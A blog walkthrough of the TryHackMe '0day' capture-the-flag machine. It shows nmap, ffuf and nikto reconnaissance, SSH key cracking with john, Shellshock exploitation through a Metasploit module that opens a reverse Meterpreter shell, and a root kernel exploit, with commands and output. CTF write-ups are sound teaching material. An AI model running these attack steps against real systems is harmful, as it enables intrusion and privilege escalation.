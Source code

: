 ```yaml
---
layout: default
title : 0day - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 10, 2020**_

[0day](https://tryhackme.com/room/0day) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/0day$ nmap -sC -sV 10.10.86.209
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 15:38 EST
Nmap scan report for 10.10.86.209
Host is up (0.095s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

```
bvr0n@kali:~/CTF/THM/0day$ ffuf -c -u http://10.10.86.209/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

________________________________________________

.htpasswd               [Status: 403, Size: 288, Words: 21, Lines: 11]
.hta                    [Status: 403, Size: 283, Words: 21, Lines: 11]
.htaccess               [Status: 403, Size: 288, Words: 21, Lines: 11]
admin                   [Status: 301, Size: 311, Words: 20, Lines: 10]
backup                  [Status: 301, Size: 312, Words: 20, Lines: 10]
cgi-bin/                [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin                 [Status: 301, Size: 313, Words: 20, Lines: 10]
css                     [Status: 301, Size: 309, Words: 20, Lines: 10]
img                     [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43]
js                      [Status: 301, Size: 308, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 38, Words: 7, Lines: 2]
secret                  [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 292, Words: 21, Lines: 11]
uploads                 [Status: 301, Size: 313, Words: 20, Lines: 10]
```

`/backup/` have a SSH private key, Let's crack it for a password.

```
bvr0n@kali:~/CTF/THM/0day$ sudo john test --wordlist=/home/bvr0n/Documents/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
```
This was eventually a rabbit hole haha, i decided to bring `nikto` he may help me :

```
bvr0n@kali:~/CTF/THM/0day$ nikto -h 10.10.86.209
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.86.209
+ Target Hostname:    10.10.86.209
+ Target Port:        80
+ Start Time:         2020-11-10 15:54:28 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
Nikto was able to find a vulnerability named `Shellshock`.

## Shellshock :

Also known as Bashdoor, is a family of security bugs in the Unix Bash shell, the first of which was disclosed on 24 September 2014. 
Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests. 

#### Specific exploitation vectors :

* CGI-based web server, Python, Perl
* OpenSSH server
* DHCP clients
* Qmail server
* IBM HMC restricted shell
* Vulnerable since version 1.03 of Bash released in September 1989

## Shellsock Exploitation :

I searched for it in metasploit and found 11 modules, but this one matches what we need :

```
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)7
```
This is what we need to configure :

```
> set LHOST tun0
> set RHOSTS 10.10.86.209
> set TARGETURI /cgi-bin/test.cgi
```
Type exploit and wait for it :

```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.8.14.157:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.86.209
[*] Meterpreter session 1 opened (10.8.14.157:4444 -> 10.10.86.209:55383) at 2020-11-10 16:09:04 -0500

meterpreter >
```

## Privilege Escalation :

So i did a few enumeration and i found out that this machine is running an outdated kernel :o

```
www-data@ubuntu:/home/ryan$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for this version and found an [Exploit](https://www.exploit-db.com/exploits/37292) for it, so let's get this root.

I uploaded the exploit to the machine via my machine and compiled it :

```
www-data@ubuntu:/tmp$ gcc Kernel_exploit.c -o kec
www-data@ubuntu:/tmp$ ./kec 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id && whoami
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root
```


<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
